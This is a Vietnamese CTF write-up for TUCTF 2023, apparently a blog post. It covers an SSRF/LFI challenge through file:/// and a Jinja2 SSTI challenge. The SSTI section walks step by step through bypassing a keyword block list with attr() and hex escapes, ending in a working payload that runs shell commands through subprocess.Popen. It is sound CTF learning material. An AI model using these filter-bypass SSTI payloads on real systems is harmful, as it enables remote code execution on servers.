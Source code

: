 ```yaml
---
title: Write-Up TUCTF 2023
date: 2023-12-3 7:55:00 +0700
categories: [CTF, TUCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled.png">
- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 1.png">

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 3.png">

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 4.png">

- Tuy nhiên có vẻ như không hoạt động 😀

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 5.png">

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 6.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 7.png">

- Voila!!, lúc này mình tiếp tục thử dùng `{{().**class**}}`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 8.png">

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```python
().__class__
```

Tương đương với

```python
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```python
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 


```python
()|attr('__class__')|attr('__base__')
```

nó sẽ tương tự như

```python
().**__class__**.**__base__**
```

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.

```python
{{().__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('whoami',shell=True,stdout=-1).communicate()}}
```

1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**

- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

```python
//{{().__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('whoami',shell=True,stdout=-1).communicate()}}//
```

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 

```python
{{().__class__.__base__.__subclasses__().__getitem__().**__class__**.**__base__**.**__subclasses__**()('whoami',shell=True,stdout=-1).communicate()}}
```

Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter

```python
{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()}}
```

- Tuy nhiên ta lại nhận được kết quả như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 9.png">

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...`

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**

```python
{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','')}}
```

- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 10.png">

- Lúc này ta viết script để tìm được index của nó là 372, vậy payload cuối cùng của ta sẽ là 
```python
{{().__class__.__base__.__subclasses__().__getitem__(372)('whoami',shell=True,stdout=-1).communicate()}}
```

- Để tránh bị filter

```python
{{()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',shell=True,stdout=-1)|attr('communicate')()}}
```

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 11.png">

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag :D
